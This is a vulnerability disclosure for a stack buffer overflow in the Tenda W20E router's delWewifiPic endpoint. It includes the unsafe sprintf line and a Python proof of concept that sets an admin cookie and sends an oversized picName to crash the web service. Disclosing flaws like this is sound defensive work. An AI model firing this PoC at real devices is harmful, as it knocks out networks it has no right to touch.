


# Vulnerability Report: Stack-based Buffer Overflow in Tenda W20E  Router
A stack-based buffer overflow vulnerability has been identified in the web management interface of the **Tenda W20E** enterprise router . An attacker can trigger this vulnerability by sending a maliciously crafted, overly long string within the `picName` parameter to the `/goform/delWewifiPic` endpoint. Successful exploitation of this flaw can result in a crash of the web service (Denial of Service - DoS) or potentially allow for Remote Code Execution (RCE).

### Vulnerability Details
**Product Information** 

Product:Tenda W20E Enterprise Router

Affected Version: V15.11.0.6

Vulnerability Type: Stack-based Buffer Overflow


### Description:
The vulnerable code path processes HTTP POST requests to the `/goform/delWewifiPic` endpoint, which is mapped to the internal C function `formDelWewifiPic`.

The vulnerability occurs when constructing a file path string. The function retrieves the user-controlled `picName` parameter and uses the unsafe `sprintf` function to concatenate it into a fixed-size stack buffer `picPath`:

```
sprintf((char *)picPath, "%s%s.jpg", "/webroot/images/webpush/", (const char *)picName);
```

The `picPath` buffer is allocated only **64 bytes** on the stack. The hardcoded prefix `/webroot/images/webpush/` and suffix `.jpg` consume approximately 29 bytes of that space. Because there is no length validation on the `picName` input, providing a string longer than ~35 bytes will overflow the stack buffer. This allows an attacker to overwrite the saved **Link Register (LR/Return Address)** on the stack, thereby hijacking the control flow of the `httpd` process.



### Poc



```python
import requests
import base64

host = "192.168.0.1"
s = requests.session()

def trigger_overflow():
    encoded_pwd = base64.b64encode(b"aaaa").decode()
    s.post(f"http://{host}/goform/setQuickCfgWifiAndLogin", data={"sysUserPassword": encoded_pwd})
    
    if not s.cookies.get("user"):
        s.cookies.set("user", "admin") 

    url = f"http://{host}/goform/delWewifiPic"
    payload = "A" * 1000
    
    resp = s.post(url, data={"picName": payload}, timeout=5)
    print(resp.content)
```